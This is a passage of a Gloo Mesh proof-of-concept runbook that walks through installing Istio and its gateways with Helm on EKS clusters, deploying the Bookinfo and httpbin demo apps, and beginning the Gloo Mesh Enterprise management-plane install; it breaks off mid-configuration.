



<!--bash
#!/usr/bin/env bash

source ./scripts/assert.sh
-->


# <center>WU Gloo Mesh POC Runbook</center>

# Table of Contents

## Gloo Mesh Labs
* [Introduction to Gloo Mesh](#introduction)
* [Lab 0 - Prerequisites](#Lab-0)
* [Lab 1 - Setting up your Environment Variables](#Lab-1)
* [Lab 2 - Deploy Istio](#Lab-2)
* [Lab 3 - Deploy the Bookinfo demo app](#Lab-3)
* [Lab 4 - Deploy the httpbin demo app](#Lab-4)
* [Lab 5 - Deploy and register Gloo Mesh](#Lab-5)
* [Lab 6 - Create the gateways workspace](#Lab-6)
* [Lab 7 - Create the bookinfo workspace](#Lab-7)
* [Lab 8a - Expose the productpage through a gateway](#Lab-8a)
* [Lab 8b - Canary deployment with traffic shifting](#Lab-8b)
* [Lab 9 - Traffic policies](#Lab-9)
* [Lab 10 - Create the Root Trust Policy](#Lab-10)
* [Lab 11 - Multi-cluster Traffic](#Lab-11)
* [Lab 12 - Leverage Virtual Destinations](#Lab-12)
* [Lab 13 - Service failover across clusters and Locality Configuration](#Lab-13)
* [Lab 14 - Deploy sleep containers for zero-trust lab](#Lab-14)
* [Lab 15 - Zero trust](#Lab-15)
* [Lab 16 - Create the httpbin workspace](#Lab-16)
* [Lab 17 - Expose an external service](#Lab-17)

## Gloo Gateway Labs
* [Lab 1 - Securing the access with OAuth](#Lab-1-gw)
* [Lab 2 - Integrating with OPA](#Lab-2-gw)
* [Lab 3 - Apply rate limiting to the Gateway](#Lab-3-gw)
* [Lab 4 - Use the Transformation filter](#Lab-4-gw)
* [Lab 5 - Use the Web Application Firewall filter](#Lab-5-gw)


## Introduction to Gloo Mesh <a name="introduction"></a>

[Gloo Mesh Enterprise](https://www.solo.io/products/gloo-mesh/) is a management plane which makes it easy to operate [Istio](https://istio.io) on one or many Kubernetes clusters deployed anywhere (any platform, anywhere).

### Istio support

The Gloo Mesh Enterprise subscription includes end to end Istio support:

- Upstream first
- Specialty builds available (FIPS, ARM, etc)
- Long Term Support (LTS) N-4 
- Critical security patches
- Production break-fix
- One hour SLA Severity 1
- Install / upgrade
- Architecture and operational guidance, best practices

### Gloo Mesh overview

Gloo Mesh provides many unique features, including:

- multi-tenancy based on global workspaces
- zero trust enforcement
- global observability (centralized metrics and access logging)
- simplified cross cluster communications (using virtual destinations)
- advanced gateway capabilities (oauth, jwt, transformations, rate limiting, web application firewall, ...)


## Lab 0 - Prerequisites <a name="Lab-0"></a>

### HIGHLY RECOMMENDED: Read Before Starting the Labs Below:

Before you start running through the Labs below, it is highly recommended to read the About and Concepts sections linked below. Here you will begin to learn the high level value add that Gloo Mesh brings to your Istio architecture. Understanding of the concepts and architecture of Gloo Mesh will help us greatly as we move along the hands-on labs.

[Gloo Mesh Docs - About Gloo Mesh V2](https://docs.solo.io/gloo-mesh-enterprise/main/concepts/about/)

[Gloo Mesh Docs - API Concepts](https://docs.solo.io/gloo-mesh-enterprise/main/concepts/concepts/)

[Gloo Mesh Docs - Relay Architecture](https://docs.solo.io/gloo-mesh-enterprise/main/concepts/relay/)

[Gloo Mesh Docs - Workspaces](https://docs.solo.io/gloo-mesh-enterprise/main/concepts/workspace/)

### Prerequisites
This POC runbook assumes the following:
- 3x clusters deployed on EKS w/3 workers (m5.xlarge instance size)
- AWS NLB Controller deployed on all three clusters

## Lab 1 - Setting up your Environment Variables <a name="Lab-1"></a>

Set the GLOO_MESH_LICENSE_KEY environment variable before starting:

```bash
export GLOO_MESH_LICENSE_KEY="<INSERT_LICENSE_KEY_HERE>"
```

Set the context environment variables:

```bash
export MGMT=mgmt
export CLUSTER1=cluster1
export CLUSTER2=cluster2
```

You also need to rename the Kubernetes contexts of each Kubernetes cluster to match `mgmt`, `cluster1`, ...

Here is an example showing how to rename a Kubernetes context:

```
kubectl config rename-context <context to rename> <new context name>
```

Run the following command to make `mgmt` the current cluster.

```bash
kubectl config use-context ${MGMT}
```

> If you prefer to use the existing context name, just set the variables as so:
> ```
> export MGMT=<cluster_mgmt_context>
> export CLUSTER1="<cluster_1_context>"
> export CLUSTER2="<cluster_2_context>"
> ```
>
> Note: these variables may need to be set in each new terminal used


## Lab 2 - Deploy Istio <a name="Lab-2"></a>


We are going to deploy Istio using Helm, but there are several other options. You can find more information in the [Istio documentation](https://istio.io/latest/docs/setup/install/).

First of all, let's Download the Istio release 1.13.4:

```bash
export ISTIO_VERSION=1.13.4
curl -L https://istio.io/downloadIstio | sh -
```

Then, you need to create the `istio-system` and the `istio-gateways` namespaces on the first cluster.

```bash
kubectl --context ${CLUSTER1} create ns istio-system
kubectl --context ${CLUSTER1} create ns istio-gateways
```

Now, let's deploy the Istio control plane on the first cluster.
Note that we set the `trust domain` to be the same as the cluster name and we configure the sidecars to send their metrics and access logs to the Gloo Mesh agent:


```bash
helm --kube-context=${CLUSTER1} upgrade --install istio-base ./istio-1.13.4/manifests/charts/base -n istio-system

helm --kube-context=${CLUSTER1} upgrade --install istio-1.13.4 ./istio-1.13.4/manifests/charts/istio-control/istio-discovery -n istio-system --values - <<EOF
revision: 1-13
global:
  meshID: mesh1
  multiCluster:
    clusterName: cluster1
  network: network1
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.13.4-solo
meshConfig:
  trustDomain: cluster1
  accessLogFile: /dev/stdout
  enableAutoMtls: true
  defaultConfig:
    envoyMetricsService:
      address: gloo-mesh-agent.gloo-mesh:9977
    envoyAccessLogService:
      address: gloo-mesh-agent.gloo-mesh:9977
    proxyMetadata:
      ISTIO_META_DNS_CAPTURE: "true"
      ISTIO_META_DNS_AUTO_ALLOCATE: "true"
      GLOO_MESH_CLUSTER_NAME: cluster1
pilot:
  env:
    PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES: "false"
    PILOT_SKIP_VALIDATE_TRUST_DOMAIN: "true"
  # Resources for a small pilot install for kyverno policy
  resources:
    requests:
      cpu: 500m
      memory: 2048Mi
EOF
```

After that, you can deploy the gateways:

```bash
kubectl --context ${CLUSTER1} label namespace istio-gateways istio.io/rev=1-13

helm --kube-context=${CLUSTER1} upgrade --install istio-ingressgateway ./istio-1.13.4/manifests/charts/gateways/istio-ingress -n istio-gateways --values - <<EOF
global:
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.13.4-solo
gateways:
  istio-ingressgateway:
    name: istio-ingressgateway
    namespace: istio-gateways
    labels:
      istio: ingressgateway
    injectionTemplate: gateway
    type: LoadBalancer
    ports:
    - name: http2
      port: 80
      targetPort: 8080
    - name: https
      port: 443
      targetPort: 8443
    serviceAnnotations:
      meta.helm.sh/release-name: istio-ingressgateway
      meta.helm.sh/release-namespace: istio-gateways
      service.beta.kubernetes.io/aws-load-balancer-backend-protocol: TCP
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-healthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-interval: "10"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-port: "15021"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-protocol: tcp
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-unhealthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: ip
      service.beta.kubernetes.io/aws-load-balancer-scheme: internet-facing
      service.beta.kubernetes.io/aws-load-balancer-type: external
    # for kyverno policy
    resources:
      requests:
        cpu: 100m
        memory: 128Mi
      limits:
        cpu: 2000m
        memory: 1024Mi
EOF

helm --kube-context=${CLUSTER1} upgrade --install istio-eastwestgateway ./istio-1.13.4/manifests/charts/gateways/istio-ingress -n istio-gateways --values - <<EOF
global:
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.13.4-solo
gateways:
  istio-ingressgateway:
    name: istio-eastwestgateway
    namespace: istio-gateways
    labels:
      istio: eastwestgateway
      topology.istio.io/network: network1
    injectionTemplate: gateway
    type: LoadBalancer
    ports:
    - name: tcp-status-port
      port: 15021
      targetPort: 15021
    - name: tls
      port: 15443
      targetPort: 15443
    - name: tcp-istiod
      port: 15012
      targetPort: 15012
    - name: tcp-webhook
      port: 15017
      targetPort: 15017
    serviceAnnotations:
      meta.helm.sh/release-name: istio-ingressgateway
      meta.helm.sh/release-namespace: istio-gateways
      service.beta.kubernetes.io/aws-load-balancer-backend-protocol: TCP
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-healthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-interval: "10"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-port: "15021"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-protocol: tcp
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-unhealthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: ip
      service.beta.kubernetes.io/aws-load-balancer-scheme: internet-facing
      service.beta.kubernetes.io/aws-load-balancer-type: external
    # for kyverno policy
    resources:
      requests:
        cpu: 100m
        memory: 128Mi
      limits:
        cpu: 2000m
        memory: 1024Mi
    env:
      ISTIO_META_ROUTER_MODE: "sni-dnat"
      ISTIO_META_REQUESTED_NETWORK_VIEW: "network1"
EOF
```

As you can see, we deploy the control plane (istiod) in the `istio-system` namespace and gateways in the `istio-gateways` namespace.

One gateway will be used for ingress traffic while the other one will be used for cross cluster communications. It's not mandatory to use separate gateways, but it's a best practice.

Run the following command until all the Istio Pods are ready:

```bash
kubectl --context ${CLUSTER1} get pods -n istio-system && kubectl --context ${CLUSTER1} get pods -n istio-gateways
```

When they are ready, you should get this output:

```
NAME                      READY   STATUS    RESTARTS   AGE
istiod-5c669bcf6f-2hn6c   1/1     Running   0          3m7s
NAME                                     READY   STATUS    RESTARTS   AGE
istio-eastwestgateway-77f79cdb47-f4r7k   1/1     Running   0          2m53s
istio-ingressgateway-744fcf4fb-5dc7q     1/1     Running   0          2m44s
```
You need to create the `istio-system` and the `istio-gateways` namespaces on the second cluster.

```bash
kubectl --context ${CLUSTER2} create ns istio-system
kubectl --context ${CLUSTER2} create ns istio-gateways
```

Now, let's deploy the Istio control plane on the second cluster:

```bash
helm --kube-context=${CLUSTER2} upgrade --install istio-base ./istio-1.13.4/manifests/charts/base -n istio-system

helm --kube-context=${CLUSTER2} upgrade --install istio-1.13.4 ./istio-1.13.4/manifests/charts/istio-control/istio-discovery -n istio-system --values - <<EOF
revision: 1-13
global:
  meshID: mesh1
  multiCluster:
    clusterName: cluster2
  network: network1
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.13.4-solo
meshConfig:
  trustDomain: cluster2
  accessLogFile: /dev/stdout
  enableAutoMtls: true
  defaultConfig:
    envoyMetricsService:
      address: gloo-mesh-agent.gloo-mesh:9977
    envoyAccessLogService:
      address: gloo-mesh-agent.gloo-mesh:9977
    proxyMetadata:
      ISTIO_META_DNS_CAPTURE: "true"
      ISTIO_META_DNS_AUTO_ALLOCATE: "true"
      GLOO_MESH_CLUSTER_NAME: cluster2
pilot:
  env:
    PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES: "false"
    PILOT_SKIP_VALIDATE_TRUST_DOMAIN: "true"
  # Resources for a small pilot install for kyverno policy
  resources:
    requests:
      cpu: 500m
      memory: 2048Mi
EOF
```

After that, you can deploy the gateways:

```bash
kubectl --context ${CLUSTER2} label namespace istio-gateways istio.io/rev=1-13

helm --kube-context=${CLUSTER2} upgrade --install istio-ingressgateway ./istio-1.13.4/manifests/charts/gateways/istio-ingress -n istio-gateways --values - <<EOF
global:
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.13.4-solo
gateways:
  istio-ingressgateway:
    name: istio-ingressgateway
    namespace: istio-gateways
    labels:
      istio: ingressgateway
    injectionTemplate: gateway
    type: LoadBalancer
    ports:
    - name: http2
      port: 80
      targetPort: 8080
    - name: https
      port: 443
      targetPort: 8443
    serviceAnnotations:
      meta.helm.sh/release-name: istio-ingressgateway
      meta.helm.sh/release-namespace: istio-gateways
      service.beta.kubernetes.io/aws-load-balancer-backend-protocol: TCP
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-healthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-interval: "10"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-port: "15021"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-protocol: tcp
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-unhealthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: ip
      service.beta.kubernetes.io/aws-load-balancer-scheme: internet-facing
      service.beta.kubernetes.io/aws-load-balancer-type: external
    # for kyverno policy
    resources:
      requests:
        cpu: 100m
        memory: 128Mi
      limits:
        cpu: 2000m
        memory: 1024Mi
EOF

helm --kube-context=${CLUSTER2} upgrade --install istio-eastwestgateway ./istio-1.13.4/manifests/charts/gateways/istio-ingress -n istio-gateways --values - <<EOF
global:
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.13.4-solo
gateways:
  istio-ingressgateway:
    name: istio-eastwestgateway
    namespace: istio-gateways
    labels:
      istio: eastwestgateway
      topology.istio.io/network: network1
    injectionTemplate: gateway
    type: LoadBalancer
    ports:
    - name: tcp-status-port
      port: 15021
      targetPort: 15021
    - name: tls
      port: 15443
      targetPort: 15443
    - name: tcp-istiod
      port: 15012
      targetPort: 15012
    - name: tcp-webhook
      port: 15017
      targetPort: 15017
    serviceAnnotations:
      meta.helm.sh/release-name: istio-ingressgateway
      meta.helm.sh/release-namespace: istio-gateways
      service.beta.kubernetes.io/aws-load-balancer-backend-protocol: TCP
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-healthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-interval: "10"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-port: "15021"
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-protocol: tcp
      service.beta.kubernetes.io/aws-load-balancer-healthcheck-unhealthy-threshold: "2"
      service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: ip
      service.beta.kubernetes.io/aws-load-balancer-scheme: internet-facing
      service.beta.kubernetes.io/aws-load-balancer-type: external
    # for kyverno policy
    resources:
      requests:
        cpu: 100m
        memory: 128Mi
      limits:
        cpu: 2000m
        memory: 1024Mi
    env:
      ISTIO_META_ROUTER_MODE: "sni-dnat"
      ISTIO_META_REQUESTED_NETWORK_VIEW: "network1"
EOF
```

Check the status on the second cluster using:

```bash
kubectl --context ${CLUSTER2} get pods -n istio-system && kubectl --context ${CLUSTER2} get pods -n istio-gateways
```

Set the environment variable for the service corresponding to the Istio Ingress Gateway of the cluster(s):

```bash
export ENDPOINT_HTTP_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):80
export ENDPOINT_HTTPS_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):443
export HOST_GW_CLUSTER1=$(echo ${ENDPOINT_HTTP_GW_CLUSTER1} | cut -d: -f1)
export ENDPOINT_HTTP_GW_CLUSTER2=$(kubectl --context ${CLUSTER2} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):80
export ENDPOINT_HTTPS_GW_CLUSTER2=$(kubectl --context ${CLUSTER2} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):443
export HOST_GW_CLUSTER2=$(echo ${ENDPOINT_HTTP_GW_CLUSTER2} | cut -d: -f1)
```

Let's make sure that all of the variables are discovered correctly:
```
echo $ENDPOINT_HTTP_GW_CLUSTER1
echo $ENDPOINT_HTTPS_GW_CLUSTER1
echo $HOST_GW_CLUSTER1
echo $HOST_GW_CLUSTER2
echo $ENDPOINT_HTTP_GW_CLUSTER2
echo $ENDPOINT_HTTPS_GW_CLUSTER2
```

## Lab 3 - Deploy the Bookinfo demo app <a name="Lab-3"></a>

We're going to deploy the bookinfo application to demonstrate several features of Istio and Gloo Mesh.

You can find more information about this application [here](https://istio.io/latest/docs/examples/bookinfo/).

Run the following commands to deploy the bookinfo application on `cluster1`:

```bash
kubectl --context ${CLUSTER1} create ns bookinfo-frontends
kubectl --context ${CLUSTER1} create ns bookinfo-backends
curl https://raw.githubusercontent.com/istio/istio/release-1.13/samples/bookinfo/platform/kube/bookinfo.yaml > bookinfo.yaml
kubectl --context ${CLUSTER1} label namespace bookinfo-frontends istio.io/rev=1-13
kubectl --context ${CLUSTER1} label namespace bookinfo-backends istio.io/rev=1-13
# deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'account in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'app in (productpage)'
# deploy the backend bookinfo services in the bookinfo-backends namespace for all versions less than v3
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'account in (reviews,ratings,details)'
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'app in (reviews,ratings,details),version notin (v3)'
# Update the productpage deployment to set the environment variables to define where the backend services are running
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 DETAILS_HOSTNAME=details.bookinfo-backends.svc.cluster.local
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 REVIEWS_HOSTNAME=reviews.bookinfo-backends.svc.cluster.local
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER1}
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER1}
```

You can check that the app is running using the following command:

```
kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER1} -n bookinfo-backends get pods
```

```
NAME                              READY   STATUS    RESTARTS   AGE
productpage-v1-7654c7546b-7kztp   2/2     Running   0          32m
NAME                          READY   STATUS    RESTARTS   AGE
details-v1-5498c86cf5-tx9f9   2/2     Running   0          32m
ratings-v1-b477cf6cf-fk5rv    2/2     Running   0          32m
reviews-v1-79d546878f-kcc25   2/2     Running   0          32m
reviews-v2-548c57f459-8xh7n   2/2     Running   0          32m
```

Note that we deployed the `productpage` service in the `bookinfo-frontends` namespace and the other services in the `bookinfo-backends` namespace.

And we deployed the `v1` and `v2` versions of the `reviews` microservice, not the `v3` version.

Now, run the following commands to deploy the bookinfo application on `cluster2`:

```bash
kubectl --context ${CLUSTER2} create ns bookinfo-frontends
kubectl --context ${CLUSTER2} create ns bookinfo-backends
kubectl --context ${CLUSTER2} label namespace bookinfo-frontends istio.io/rev=1-13
kubectl --context ${CLUSTER2} label namespace bookinfo-backends istio.io/rev=1-13
# deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER2} -n bookinfo-frontends apply -f bookinfo.yaml -l 'account in (productpage)'
kubectl --context ${CLUSTER2} -n bookinfo-frontends apply -f bookinfo.yaml -l 'app in (productpage)'
# deploy the backend bookinfo services in the bookinfo-backends namespace for all versions
kubectl --context ${CLUSTER2} -n bookinfo-backends apply -f bookinfo.yaml -l 'account in (reviews,ratings,details)'
kubectl --context ${CLUSTER2} -n bookinfo-backends apply -f bookinfo.yaml -l 'app in (reviews,ratings,details)'
# Update the productpage deployment to set the environment variables to define where the backend services are running
kubectl --context ${CLUSTER2} -n bookinfo-frontends set env deploy/productpage-v1 DETAILS_HOSTNAME=details.bookinfo-backends.svc.cluster.local
kubectl --context ${CLUSTER2} -n bookinfo-frontends set env deploy/productpage-v1 REVIEWS_HOSTNAME=reviews.bookinfo-backends.svc.cluster.local
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER2}
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER2}
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v3 CLUSTER_NAME=${CLUSTER2}
```

You can check that the app is running using:

```bash
kubectl --context ${CLUSTER2} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER2} -n bookinfo-backends get pods
```

```
NAME                              READY   STATUS    RESTARTS   AGE
productpage-v1-7654c7546b-wp46l   2/2     Running   0          83s
NAME                          READY   STATUS    RESTARTS   AGE
details-v1-5498c86cf5-hv4tn   2/2     Running   0          85s
ratings-v1-b477cf6cf-8zxtw    2/2     Running   0          85s
reviews-v3-6dd79655b9-mw2ph   2/2     Running   0          84s
reviews-v2-548c57f459-qn2mx   2/2     Running   0          84s
reviews-v1-79d546878f-b7tpw   2/2     Running   0          84s
```

As you can see, we deployed all three versions of the `reviews` microservice on this cluster.

## Lab 4 - Deploy the httpbin demo app <a name="Lab-4"></a>

We're going to deploy the httpbin application to demonstrate several features of Istio and Gloo Mesh.

You can find more information about this application [here](http://httpbin.org/).

Run the following commands to deploy the httpbin app on `cluster1` twice.

The first version will be called `not-in-mesh` and won't have the sidecar injected (because we don't label the namespace).

```bash
kubectl --context ${CLUSTER1} create ns httpbin

kubectl --context ${CLUSTER1} apply -n httpbin -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: not-in-mesh
---
apiVersion: v1
kind: Service
metadata:
  name: not-in-mesh
  labels:
    app: not-in-mesh
    service: not-in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: not-in-mesh
spec:
  replicas: 1
  selector:
    matchLabels:
      app: not-in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: not-in-mesh
        version: v1
    spec:
      serviceAccountName: not-in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: not-in-mesh
        ports:
        - containerPort: 80
EOF
```

The second version will be called `in-mesh` and will have the sidecar injected (because of the label `istio.io/rev` in the Pod template).

```bash
kubectl --context ${CLUSTER1} apply -n httpbin -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: in-mesh
---
apiVersion: v1
kind: Service
metadata:
  name: in-mesh
  labels:
    app: in-mesh
    service: in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: in-mesh
spec:
  replicas: 1
  selector:
    matchLabels:
      app: in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: in-mesh
        version: v1
        istio.io/rev: 1-13
    spec:
      serviceAccountName: in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: in-mesh
        ports:
        - containerPort: 80
EOF
```

You can check that the app is running using:

```
kubectl --context ${CLUSTER1} -n httpbin get pods
```

```
NAME                           READY   STATUS    RESTARTS   AGE
in-mesh-5d9d9549b5-qrdgd       2/2     Running   0          11s
not-in-mesh-5c64bb49cd-m9kwm   1/1     Running   0          11s
```

## Lab 5 - Deploy and register Gloo Mesh <a name="Lab-5"></a>

First of all, let's install the `meshctl` CLI:

```bash
export GLOO_MESH_VERSION=v2.2.0
curl -sL https://run.solo.io/meshctl/install | sh -
export PATH=$HOME/.gloo-mesh/bin:$PATH
```

Run the following commands to deploy the Gloo Mesh management plane:

```bash
helm repo add gloo-mesh-enterprise https://storage.googleapis.com/gloo-mesh-enterprise/gloo-mesh-enterprise 
helm repo update
kubectl --context ${MGMT} create ns gloo-mesh 
helm upgrade --install gloo-mesh-enterprise gloo-mesh-enterprise/gloo-mesh-enterprise \
--namespace gloo-mesh --kube-context ${MGMT} \
--version=2.2.0 \
--values - <<EOF
licenseSecretName: gloo-mesh-license
global:
  cluster: mgmt
mgmtClusterName: mgmt
glooMeshMgmtServer:
  resources:
    requests:
      cpu: 125m
      memory: 256Mi
    limits:
      cpu: 1000m
      memory: 1Gi
  ports:
    healthcheck: 8091
    grpc: 9900
  serviceType: LoadBalancer
  # Additional settings to add to the load balancer service
  serviceOverrides:
    metadata:
      annotations:
        # AWS-specific annotations
        service.beta.kubernetes.io/aws-load-balancer-healthcheck-healthy-threshold: "2"
        service.beta.kubernetes.io/aws-load-balancer-healthcheck-unhealthy-threshold: "2"
        service.beta.kubernetes.io/aws-load-balancer-healthcheck-interval: "10"
        service.beta.kubernetes.io/aws-load-balancer-healthcheck-port: "9900"
        service.beta.kubernetes.io/aws-load-balancer-healthcheck-protocol: "tcp"
        service.beta.kubernetes.io/aws-load-balancer-type: external
        service.beta.kubernetes.io/aws-load-balancer-scheme: internet-facing
        service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: ip
        service.beta.kubernetes.io/aws-load-balancer-backend-protocol: TCP
        service.beta.kubernetes.io/aws-load-balancer-name: solo-poc-gloo-mesh-mgmt-server
  relay:
